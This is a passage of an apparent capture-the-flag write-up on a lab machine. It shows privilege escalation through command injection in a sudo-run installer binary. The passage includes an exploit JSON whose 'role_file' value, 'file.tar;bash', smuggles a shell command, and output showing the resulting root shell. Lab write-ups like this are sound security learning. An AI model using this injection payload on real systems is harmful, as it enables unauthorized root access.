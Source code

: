 Then you need to decompile that binary
![[Pasted image 20240429120530.png]]
![[Pasted image 20240429120541.png]]
![[Pasted image 20240429120550.png]]

## Exploit.json
Since the rule name is vulnerable to command injection you can rename a .tar file to 'file;bash' and make your json file look like this
```json
{
  "run":{
        "action":"install",
        "role_file":"file.tar;bash"
        },
  "auth_code":"UHI75GHINKOP"
}

```

```shell
lopez@intuition:~$ ls
 disassembly.txt   exploit2.json   exploit.json  'file.tar;bash'
```

# Run it
```shell
lopez@intuition:~$ sudo /opt/runner2/runner2 exploit.json
Starting galaxy role install process
whoami
[WARNING]: - file.tar was NOT installed successfully: Unknown error when attempting to call Galaxy at 'https://galaxy.ansible.com/api/':
<urlopen error [Errno -3] Temporary failure in name resolution>
ERROR! - you can use --ignore-errors to skip failed roles and finish processing the list.
root@intuition:/home/lopez# whoami
root

```